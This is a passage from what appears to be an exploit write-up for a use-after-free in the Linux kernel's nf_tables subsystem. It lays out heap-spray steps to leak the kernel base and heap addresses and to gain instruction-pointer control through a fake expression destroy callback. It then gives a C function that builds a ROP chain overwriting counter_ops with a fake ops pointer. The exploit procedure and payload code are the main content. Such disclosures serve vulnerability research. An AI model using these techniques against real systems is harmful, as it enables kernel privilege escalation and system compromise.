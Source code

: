```c
static inline struct nft_set_ext *nft_set_elem_ext(const struct nft_set *set,
						   void *elem)
{
	return elem + set->ops->elemsize;                       // [10]
}
```

- Spray rhash sets `Set_Spray_n`. When destroying an `nf_tables_set_elem_destroy` element, `nft_set_ext` is used [8], and `nft_set_ext` is retrieved by referencing `set->ops->elemsize` [10]. Thus, a rhash set with `elemsize` of 8 is overwritten by an rbtree set with `elemsize` of 24, causing the `nft_set_elem_expr_destroy` to reference the wrong `nft_set_ext`. We manipulate the offset to destroy the `immedieate expr` in `Rule_Victim_n`, that is allocated after the element, in [9]. This frees `Rule_Victim2_n` in `Chain_Victim2_n`. However, `Chain_Victim2_n` and `Rule_Victim2_n` are remain accessible.
- Spray fake rules using `nft_table->udata` into freed `Rule_Victim2_n` (`kmalloc-cg-192`).
- Get fake rule to obtain kbase (`nft_counter_ops`) and heap address (`nft_rule.list.next` and `nft_rule.list.prev`).

#### RIP Control

- Create two chains, `Base`, `Vulnerable`. Set `NFT_CHAIN_BINDING` flag for `Vulnerable`.
- Create an anonymous rbtree set `Set_Victim`.
- Create a set element in set `Set_Victim`. The element is allocated in `kmalloc-cg-256`.
- Spray fake exprs using `table->udata` in `kmalloc-cg-256`.
- Create a rule `R1` in `Base` with an `immediate expr` referencing the `Vulnerable`.
- Create a rule `R2` in `Vulnerable` with a `lookup expr` referencing the `Set_Victim`.
- Delete the `R1`. This results in `Set_Victim` being free from the destroy phase.
- Delete the set element in `Set_Victim`. This results in a UAF that references `Set_Victim` that was freed in previous step.
- Create rhash sets `Set_Spray_n`. As a result, the RIP is controlled by referencing the fake expr in the `nf_tables_expr_destroy` [11].

```c
static void nf_tables_expr_destroy(const struct nft_ctx *ctx,
				   struct nft_expr *expr)
{
	const struct nft_expr_type *type = expr->ops->type;

	if (expr->ops->destroy)
		expr->ops->destroy(ctx, expr);      //  [11]
	module_put(type->owner);
}
```

#### Post RIP

Since RIP control is performed by the destroy worker, we split the ROP into two phases. In the first ROP payload, we overwrite `counter_ops` with `fake ops` address.

```c
void make_payload(uint64_t* data){
    int i = 0;

    data[i++] = kbase + pop_rdi_ret;
    data[i++] = kbase + counter_ops_addr_off;

    data[i++] = kbase + pop_rsi_ret;
    data[i++] = heap_addr+0x40;             // fake ops
    data[i++] = kbase + mov_ptr_rdi_rsi;
    data[i++] = kbase + msleep_off;

    data[i++] = 0;
    data[i++] = kbase + push_rbx_pop_rsp_pop_rbp_ret;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = 8;                          // ops.size
```